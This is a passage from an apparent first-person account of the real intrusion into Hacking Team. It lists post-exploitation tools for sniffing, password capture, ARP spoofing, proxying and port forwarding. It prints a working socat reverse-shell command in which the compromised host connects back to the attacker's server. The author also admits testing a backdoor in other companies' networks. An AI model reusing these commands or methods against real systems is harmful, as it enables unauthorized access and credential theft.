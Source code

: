 5) tcpdump

   For sniffing traffic.

6) dsniff

   For sniffing passwords from plaintext protocols like ftp, and for
   arpspoofing. I wanted to use ettercap, written by Hacking Team's own ALoR
   and NaGA, but it was hard to compile it for the system.

7) socat

   For a comfortable shell with a pty:
   my_server: socat file:`tty`,raw,echo=0 tcp-listen:my_port
   hacked box: socat exec:'bash -li',pty,stderr,setsid,sigint,sane \
		  tcp:my_server:my_port

   And useful for a lot more, it's a networking swiss army knife. See the
   examples section of its documentation.

8) screen

   Like the shell with pty, it wasn't really necessary, but I wanted to feel
   at home in Hacking Team's network.

9) a SOCKS proxy server

   To use with proxychains to be able to access their local network from any
   program.

10) tgcd

   For forwarding ports, like for the SOCKS server, through the firewall.

[1] https://www.busybox.net/
[2] https://nmap.org/
[3] https://github.com/SpiderLabs/Responder
[4] https://github.com/bendmorris/static-python
[5] http://www.tcpdump.org/
[6] http://www.monkey.org/~dugsong/dsniff/
[7] http://www.dest-unreach.org/socat/
[8] https://www.gnu.org/software/screen/
[9] http://average-coder.blogspot.com/2011/09/simple-socks5-server-in-c.html
[10] http://tgcd.sourceforge.net/


The worst thing that could happen would be for my backdoor or post-exploitation
tools to make the system unstable and cause an employee to investigate. So I
spent a week testing my exploit, backdoor, and post-exploitation tools in the
networks of other vulnerable companies before entering Hacking Team's network.


--[ 7 - Watch and Listen ]------------------------------------------------------

Now inside their internal network, I wanted to take a look around and think
about my next step. I started Responder.py in analysis mode (-A to listen
without sending poisoned responses), and did a slow scan with nmap.


--[ 8 - NoSQL Databases ]-------------------------------------------------------
